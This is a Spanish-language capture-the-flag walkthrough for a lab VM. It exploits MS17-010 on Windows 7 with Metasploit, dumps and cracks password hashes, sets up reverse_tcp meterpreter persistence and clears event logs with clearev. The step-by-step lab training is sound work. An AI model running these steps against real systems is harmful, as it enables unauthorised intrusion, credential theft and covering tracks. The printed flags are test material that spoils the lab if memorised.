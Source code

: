 # Maquina Eternal

Dificultad --> Facil

Enlace de la maquina --> https://github.com/Rondon-Jesus92/Maquinas-Virtuales-CTF/blob/main/Descarga-de-Maquinas/eternal-VMware.zip

Instrucciones --> Se necesita instalar VMawre Workstation para poder virtualizar la maquina

'

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

## 1.Reconocmiento

Utilizamos el comando **--> sudo arp-scan -l <--** para encontrar la dirección IP de la Maquina 💻 victima

[![reconocimiento.jpg](https://i.postimg.cc/RVGV6vBt/reconocimiento.jpg)](https://postimg.cc/1fnZbh4R)

Escaneando puertos y sus versiones utilizando el comando **nmap** con diferentes parámetros a la IP que conseguimos 🔎

[![reconocimiento2.jpg](https://i.postimg.cc/1RK41Gfs/reconocimiento2.jpg)](https://postimg.cc/ThpTrWV4)



[![reconocimiento3.jpg](https://i.postimg.cc/X77qjrCF/reconocimiento3.jpg)](https://postimg.cc/8s9NwPwP)


Convertimos el archivo que se nos genero para visualizarlo mejor con el siguiente comando **--> xsltproc blue-nmap-results.xml -o blue-nmap-results.html <--** y luego lo abrimos con el navegador


[![reconocimiento4.jpg](https://i.postimg.cc/rFnmKq1H/reconocimiento4.jpg)](https://postimg.cc/Xp53PSDK)


[![reconocimiento5.jpg](https://i.postimg.cc/G2x3rR3q/reconocimiento5.jpg)](https://postimg.cc/qhgHX933)


### Resumen de la Información Obtenida

|IP             | Sistema OPerativo | Puertos/Servicios                | 
|:------------: |:-----------------:| :-------------------------------:| 
| 192.168.1.17  | Windows 7 ultime  | 135/tcp msrpc                    |
|               |                   | 139/tcp netbios-ssn              |
|               |                   | 445/tcp microsoft-ds             |
|               |                   | 49152-49157/tcp microsoft-rpc    |



## 2. Análisis de Vulnerabilidades / Debilidades

Buscamos un exploit con el comando **--> searchsploit ms17-010 <--** la vulnerabilidad que conseguimos

[![analisis.jpg](https://i.postimg.cc/tTqQ3xyN/analisis.jpg)](https://postimg.cc/McFFxXnn)

## 3. Explotación

Abrimos metasploit con el comando **--> msfconsole <--**, luegos buscamos el exploit MS17-010 con el comando **--> search MS17-010 <--**
Se nos desplegara varias opciones la cual vamos a seleccionar es la N° 0 con el comando **--> use 0 <--**

[![explotacion.jpg](https://i.postimg.cc/qR1fjvvV/explotacion.jpg)](https://postimg.cc/N92P0YXp)

Cambiamos el parametro RHOSTS por la IP de la maquina victima 💻, para luego proceder a ejecutar el exploit 💣


[![explotacion2.jpg](https://i.postimg.cc/ZKBkxZk2/explotacion2.jpg)](https://postimg.cc/xc2F9w13)


Ejecutamos el siguiente comando **--> hashdump <--**

[![explotacion3.jpg](https://i.postimg.cc/sXdCvNHq/explotacion3.jpg)](https://postimg.cc/670mPYXf)

Conseguimos unas credenciales encriptadas las cuales la podemos decifrar en diferentes paginas online como por ejemplo **crackstation**

[![explotacion4.jpg](https://i.postimg.cc/DykV6H2z/explotacion4.jpg)](https://postimg.cc/xqRFTsNr)

Ya tenemos la contraseña del usuario **Hacker Mentor User** y del usuario **Hacker Mentor Admin**, podemos acceder a cada uno de los usuario y en el escritorio vamos a conseguir la **Bandera1** y la **Bandera2**

### Accediendo al usuario Hacker Mentor User


[![bandera1.jpg](https://i.postimg.cc/W36Ctbkq/bandera1.jpg)](https://postimg.cc/vgT3NyXG)


### Accediendo al usuario Hacker Mentor Admin


[![bandera2.jpg](https://i.postimg.cc/wMwrcfF6/bandera2.jpg)](https://postimg.cc/30D93ZP6)



## 4.Banderas 🏁

|Bandera 1 | 0ef3b7d488b11e3e800f547a0765da8e |
|:--------:|:--------------------------------:|
|Bandera 2 | A63c1c39c0c7fd570053343451667939 |


## 5.Extra 🚨

Vamos a proceder a realizar persistencia en esta maquina 💻, ejecutamos el comando **--> getpid <--** y luego **--> ps <--** para ver los procesos que se estan ejecutando

[![persistencia.jpg](https://i.postimg.cc/28R6W0MQ/persistencia.jpg)](https://postimg.cc/vDhbFtQT)


Luego vamos hacer una migración de proceso al 2872 del admin

[![persistencia2.jpg](https://i.postimg.cc/j2Vszjgx/persistencia2.jpg)](https://postimg.cc/2bwRYCNM)

Realizamos un Backgrounding y cambiamos el exploit por el exploit/windows/local/persistence

[![persistencia3.jpg](https://i.postimg.cc/Twn8vJ0x/persistencia3.jpg)](https://postimg.cc/1nR7p6b7)


Seleccionamos el payload windows/x64/meterpreter/reverse_tcp

[![persistencia4.jpg](https://i.postimg.cc/qMkPWn3f/persistencia4.jpg)](https://postimg.cc/V5VZCJg4)

Modificamos el DELAY y la SESSION

[![persistencia5.jpg](https://i.postimg.cc/2y34B2tR/persistencia5.jpg)](https://postimg.cc/9w546tVJ)

Procedemos a Realizar un run

[![persistencia6.jpg](https://i.postimg.cc/vBK4CM0k/persistencia6.jpg)](https://postimg.cc/47z49CkQ)

luego usaremos los siguientes comandos:

**--> use exploir/multi/handler**

**--> set payload windows/x64/meterpreter/reverse_tcp**

[![persistencia7.jpg](https://i.postimg.cc/YS59x8jB/persistencia7.jpg)](https://postimg.cc/DWcnvrqx)

Ahora vamos a proceder a modificar el LHOST por la IP de nuestra maquina 🖥️

[![persistencia8.jpg](https://i.postimg.cc/PrJjPYrW/persistencia8.jpg)](https://postimg.cc/HjqKNJMn)

Verificamos que todos los parametros esten correctos y procedemos hacer run 

[![persistencia9.jpg](https://i.postimg.cc/nMbGbq3y/persistencia9.jpg)](https://postimg.cc/5QgC8Qdg)

A pesar de que la maquina la han reiniciado aun tenemos acceso 🥷, ahora por ultimo vamos a proceder a realizar un borrado de huella 🤫👣 con el comando **--> clearev <--**


[![borradohuella.jpg](https://i.postimg.cc/x8YL69qQ/borradohuella.jpg)](https://postimg.cc/8JKF5QhX)
